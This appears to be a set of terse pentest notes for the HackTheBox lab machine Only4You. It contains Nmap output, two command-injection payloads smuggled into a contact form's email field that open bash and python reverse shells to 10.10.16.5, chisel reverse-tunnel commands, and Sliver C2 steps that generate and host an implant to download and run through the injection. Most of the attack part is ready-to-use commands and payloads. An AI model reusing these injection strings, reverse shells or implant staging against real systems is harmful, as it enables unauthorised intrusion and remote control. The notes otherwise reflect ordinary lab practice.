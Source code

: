 ## Table of Contents

      - [Nmap](#Nmap)
- [Fingerprint web applications for p in 3000 8001; do wappalyzer http://127.0.0.1:$p | tee logs/web-$p.json; done```](#fingerprint\web\applications\for\p\in\3000\8001;\do\wappalyzer\http://127.0.0.1:$p\|\tee\logs/web-$p.json;\done```)

#### Nmap
```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 04:19 EDT
Nmap scan report for 10.10.11.210
Host is up (0.047s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)


| ssh-hostkey: 
|   3072 e8:83:e0:a9:fd:43:df:38:19:8a:aa:35:43:84:11:ec (RSA)
|   256 

83:f2:35:22:9b:03:86:0c:16:cf:b3:fa:9f:5a:cd:08 (ECDSA)
|_  256 

44:5f:7a:a3:77:69:0a:77:78:9b:04:e0:9f:11:db:80 (ED25519)

80/tcp open  http    nginx 1.18.0 (Ubuntu)

|_http-title: Did not follow redirect to http://only4you.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

domain Found: Only4You


```
name=0xdf&email=0xdf@only4you.htb;+bash -c+'bash+-i+>&+/dev/tcp/10.10.16.5/4433+0>&1'&subject=test&message=test

http
subject=a&message=a&email=a%40google%2Ecom%20%26%26%20export%20RHOST%3D%2210.10.16.5%3Bexport%20RPORT%3D9001%3Bpython3%20%2Dc%20%27import%20sys%2Csocket%2Cos%2Cpty%3Bs%3Dsocket%2Esocket%28%29%3Bs%2Econnect%28%28os%2Egetenv%28%22RHOST%22%29%2Cint%28os%2Egetenv%28%22RPORT%22%29%29%29%29%3B%5Bos%2Edup2%28s%2Efileno%28%29%2Cfd%29%20for%20fd%20in%20%280%2C1%2C2%29%5D%3Bpty%2Espawn%28%22sh%22%29%27


```


https://github.com/jpillora/chisel
```bash
#Install Chisel
$Docker
docker run --rm -it jpillora/chisel --help
#Source
go install github.com/jpillora/chisel@latest


--host - host
--port , -p Defines HTTP listening port (8080:Default)

```

Start chisel:
`./chisel___LINUX___ server -p 8000 --reverse`


CLIENT
`./chisel client MACHINE_IP:PORT R:socks`


```bash
netstat -ltnu

./chisel server -v -p 1234 --socks5

```


**sliver**
```bash
mtls MACHINE_IP -l LPORT

generate -e -l -G -o linux -m 10.10.14.2:8443 -s implant.elf

websites add-content -w onlyforyou -c implant.elf -p /f7ioYM

https -L LOCALIP -443 -w onlyforyou

```

#exploit cmd injection to download and execute from sliver implant

Listening ports missed from enum:
3306, 7474, 3000, 8001

use
portfwd add -r 127.0.0.1:3000 -b 127.0.0.1:3000
portfwd add -r 127.0.0.1:8001 -b 127.0.0.1:8001

```
# Fingerprint web applications for p in 3000 8001; do wappalyzer http://127.0.0.1:$p | tee logs/web-$p.json; done```
